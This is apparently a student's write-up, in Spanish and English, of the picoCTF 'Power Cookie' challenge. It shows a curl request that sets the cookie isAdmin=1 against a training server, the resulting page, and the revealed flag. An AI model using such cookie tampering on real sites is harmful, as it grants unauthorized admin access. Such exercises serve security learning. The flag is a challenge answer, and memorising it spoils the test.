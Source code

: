 # Power Cookie

---
## Objectivo

Can you get the flag?Go to this [website](http://saturn.picoctf.net:52021/) and see what you can discover.

---
## Solución

``` sh
angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/S2/tmp$ curl http://saturn.picoctf.net:61304/check.php -H "Cookie: isAdmin=1"



<html>
<body>



<p>picoCTF{gr4d3_A_c00k13_0d351e23}</p>


</body>
</html>
angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/S2/tmp$ 


```

### `picoCTF{gr4d3_A_c00k13_0d351e23}`

---
## Notas adicionales

Se cambia la cookie isAdmin = 0 a 1

---
## Referencias
